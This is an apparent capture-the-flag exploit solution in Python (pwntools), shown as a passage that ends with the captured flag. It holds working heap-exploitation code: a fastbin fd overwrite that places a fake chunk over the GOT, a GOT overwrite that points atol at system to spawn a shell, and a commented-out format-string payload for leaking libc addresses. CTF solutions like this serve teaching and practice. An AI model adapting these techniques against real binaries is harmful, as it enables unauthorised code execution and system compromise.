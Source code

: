 ```python
    libc.address = addr - 0x3be7b8 # remote
    log.success("libc_base: " +hex(libc.address))
    # gdb.attach(r, gdbscript=open('./ggg', 'r'))
    # arrange heap
    add_data(2, 0, "2"*0xb0*2, 'Yes')
    add_data(2, 0, "3"*0x58*2, 'Yes')
    add_data(2, 0, "4"*0x38*2, 'Yes')
    # overwrite fastbin->fd ( in size 0x40 )
    payload = convert(0x41)
    payload += convert(0x604042)
    payload += convert(0) * 6
    payload += convert(0x31)
    payload = payload.ljust(0x58*2, '0')
    add_data(2, 0x60-0x8, payload, 'Yes')
    # now fastbin (size=0x40) has fake chunk @ got
    # allocate the fake chunk
    # overwrite got
    payload = "6"*12 # libc_start_main
    payload += convert(0x400b26) # resolve fgets
    payload += convert(0x400b36) # resolve strlen
    payload += convert(libc.symbols['system']) # hijack atol
    #payload += convert(elf.plt['printf']) # use format string to leak libc info
    payload = payload.ljust(110, '0')
    add_data(3, 8, payload, 'No')
    
    # hijack atol, send "sh" to get shell
    r.sendlineafter("SEQ #:", "sh")
    log.success("get shell!: ")
    r.interactive()

    # for exploiting format string & leak libc info
    """
    payload = "%10$s.%p.%p.%p.%p.%p.%p.%p.%p.%p" + p64(elf.got['fgets'])
    r.sendlineafter("SEQ #:", payload)
    r.recv(1)
    print "fgets:", hex(u64(r.recv(6).ljust(8, '\x00')))
    payload = "%10$s.%p.%p.%p.%p.%p.%p.%p.%p.%p" + p64(elf.got['puts'])
    r.sendlineafter("Offset:", payload)
    r.recv(1)
    print "puts:", hex(u64(r.recv(6).ljust(8, '\x00')))
    """
```

flag: `All ints are not the same... A239... Some can be bad ints!`
